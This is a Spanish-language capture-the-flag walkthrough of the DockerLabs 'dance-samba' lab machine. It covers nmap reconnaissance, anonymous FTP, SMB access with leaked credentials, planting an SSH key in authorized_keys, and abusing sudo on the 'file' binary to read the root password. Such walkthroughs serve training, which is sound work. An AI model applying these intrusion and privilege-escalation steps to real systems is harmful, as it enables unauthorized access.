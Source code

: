 # dance-samba

Maquina dance-samba de [DockerLabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Medio

![dock](./images/dance-samba/imagenes/dock.png)

## RECONOCIMIENTO

Comenzamos haciendo un escaneo de `nmap`:

```css
nmap -p- 172.17.0.2 -n --open --min-rate 5000 -Pn -sSVC -A -oN escaneo.txt
```

```css
# Nmap 7.94SVN scan initiated Mon Aug 26 13:56:49 2024 as: nmap -p- -n --open --min-rate 5000 -Pn -sSVC -A -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up (0.00015s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              69 Aug 19 19:03 nota.txt
22/tcp  open  ssh         OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a2:4e:66:7d:e5:2e:cf:df:54:39:b2:08:a9:97:79:21 (ECDSA)
|_  256 92:bf:d3:b8:20:ac:76:08:5b:93:d7:69:ef:e7:59:e1 (ED25519)
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
MAC Address: 02:42:AC:11:00:02 (Unknown)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2024-08-26T16:57:05
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

TRACEROUTE
HOP RTT     ADDRESS
1   0.15 ms 172.17.0.2

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Aug 26 13:57:09 2024 -- 1 IP address (1 host up) scanned in 20.41 seconds

```

Vemos que el puerto `21`, `22`, `443` y `139` están abiertos. Sabiendo eso y que no está abierto el puerto 80, usaremos `ftp` para conectarnos de manera anonima, ya que nmap nos dice `ftp-anon: Anonymous FTP login allowed (FTP code 230)`. Para conectarlo simplemente ejecutamos

```css
ftp 172.17.0.2
```

ponemos de nombre `anonymous` y dejamos la contraseña vacia y ya estariamos dentro del ftp.

Haciendo un `ls` vemos lo siguiente:

```css
ftp> ls
229 Entering Extended Passive Mode (|||44635|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              69 Aug 19 19:03 nota.txt
226 Directory send OK.
ftp> 
```

por lo que ahora ponemos `get nota.txt` y salimos. En nuestra máquina atacante leemos el archivo .txt y vemos lo siguiente:

```css
I don't know what to do with Macarena, she's obsessed with donald.
```

Por lo que tenemos un posible usuario con contraseña: `macarena:donald`.

Luego de probar si nos sirve para el ssh sin éxito, ejecuto:

```css
smbmap -u macarena -p donald -H 172.17.0.2 
```

```css
Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	READ ONLY	Printer Drivers
	macarena                                          	READ, WRITE	
	IPC$                                              	NO ACCESS	IPC Service (f9bd436dad44 server (Samba, Ubuntu))
```

Como vemos hay una carpeta llamada "macarena", entonces ahora nos conectaremos con `smbclient` ejecutando:

```css
smbclient //172.17.0.2/macarena -U macarena -W WORKGROUP 
```

ponemos la contraseña y listo. Ahora como vemos estamos en la carpeta `/home/` de el usuario macarena, por lo que podriamos generar una clave ssh en nuestra maquina atacante y meterla en la máquina victima como `authorized_keys`.

## INTRUSION

Con toda la informacion que tenemos, iremos a nuestra máquina atacante y ejecutaremos `ssh-keygen`, esto nos generará una clave privada y una clave publica en nuestra carpeta `.ssh`. Volvemos al smb y creamos una carpeta `.ssh` en la maquina victima ejecutando `mkdir .ssh`, nos metemos y ejecutamos lo siguiente:

```css
put /home/kali/.ssh/id_rsa.pub ./authorized_keys
```

Una vez hecho eso, iremos a nuestra maquina atacante, a la carpeta ".ssh", y le daremos permisos de ejecución al archivo `id_rsa` ejecutando `chmod 600 id_rsa`. Ahora simplemente ejecutamos `ssh -i id_rsa macarena@172.17.0.2` y _ya estaremos dentro._

## ESCALADA DE PRIVILEGIOS

#### macarena

Siendo el usuario macarena, ejecutamos un `sudo -l` pero nos pide la contraseña, por lo que no podemos ejecutar nada sin contraseña. Luego de buscar un rato, veo un archivo llamado "hash" en `/home/secret/hash` y una password en `/opt/password.txt`, pero la password no la puedo leer. Si nos fijamos bien, el hash no es realmente un hash, sino mas parecido a un `base64` o `base32`, ya que si nos fijamos tiene esto:

```css
MMZVM522LBFHUWSXJYYWG3KWO5MVQTT2MQZDS6K2IE6T2===
```

Por lo que iremos a la página [CyberChef](https://gchq.github.io/CyberChef/), y ponemos `from base32` y pegamos el "hash". Esto nos dejará un mensaje realmente en `base64`:

```css
c3VwZXJzZWN1cmVwYXNzd29yZA==
```

Como vemos, esto realmente si parece `base64` por lo que ejecutamos en la máquina un `echo "c3VwZXJzZWN1cmVwYXNzd29yZA==" | base64 -d` y listo, tendremos una contraseña que dice:

```css
supersecurepassword
```

Por lo que ahora si ejecutamos un `sudo -l` y vemos que si es la contraseña de macarena, y nos permite ejecutar el binario "File" como root, por lo que simplemente buscamos en [GTFOBins](https://gtfobins.github.io/) y buscamos el binario file. Como vemos, podemos leer archivos del sistema como root, por lo que simplemente ejecutaremos lo siguiente:

```css
LFILE=/opt/password.txt
```

y luego ejecutamos:

```css
sudo file -f $LFILE
```

```css
root:rooteable2
```

Como vemos, ya tenemos la contraseña de root, por lo que ponemos `su` y la contraseña y _ya seremos root_:

![root](./images/dance-samba/imagenes/root.png)

Gracias por leer...
